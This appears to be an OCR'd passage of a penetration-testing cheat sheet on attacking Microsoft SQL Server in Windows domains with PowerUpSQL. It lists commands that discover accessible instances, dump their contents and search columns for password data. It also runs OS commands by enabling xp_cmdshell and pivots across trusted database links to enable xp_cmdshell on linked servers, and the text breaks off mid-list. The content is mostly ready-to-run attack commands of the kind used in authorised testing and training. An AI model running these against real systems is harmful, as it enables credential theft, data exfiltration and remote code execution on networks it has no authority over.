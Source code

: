     Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLServerInfo

### MSSQL Abuse

#### 1) Perform an SQL query

    Get-SQLQuery -Instance "sql.domain.io,1433" -Query "select @@servername"

#### 2) Dump an instance (a lotof CVSs generated in current dir)

    Invoke-SQLDumpInfo -Verbose -Instance "dcorp-mssql"

#### 3) Search keywords in columns trying to access the MSSQL DBs. This won't use trusted SQL links

    Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLColumnSampleDataThreaded -Keywords "password" -SampleSize 5 | select instance, database, column, sample | ft -autosize

### MSSQL RCE

#### 1) It might be also possible to execute commands inside the MSSQL host

    Invoke-SQLOSCmd -Instance "srv.sub.domain.local,1433" -Command "whoami" -RawResults

Invoke-SQLOSCmd automatically checks if xp_cmdshell is enabled and enables it if necessary

### MSSQL Trusted Links

If a MSSQL instance is trusted (database link) by a different MSSQL instance. If the user has privileges over the trusted database, he is going to be able to use the trust relationship to execute queries also in the other instance. This trusts can be chained and at some point the user might be able to find some misconfigured database where he can execute commands.

TIP: The links between databases work even across forest trusts.

#### 1) Look for MSSQL links of an accessible instance

    Get-SQLServerLink -Instance dcorp-mssql -Verbose #Check for DatabaseLinkd > 0

#### 2) Crawl trusted links, starting form the given one (the user being used by the MSSQL instance is also specified)

    Get-SQLServerLinkCrawl -Instance mssql-srv.domain.local -Verbose

#### 3) If you are sysadmin in some trusted link you can enable xp_cmdshell with:

    Get-SQLServerLinkCrawl -instance "<INSTANCE1>" -verbose -Query 'EXECUTE(''sp_configure ''''xp_cmdshell'''',1;reconfigure;'') AT "<INSTANCE2>"'

#### 4) Execute a query in all linked instances (try to execute commands), output should be in CustomQuery field
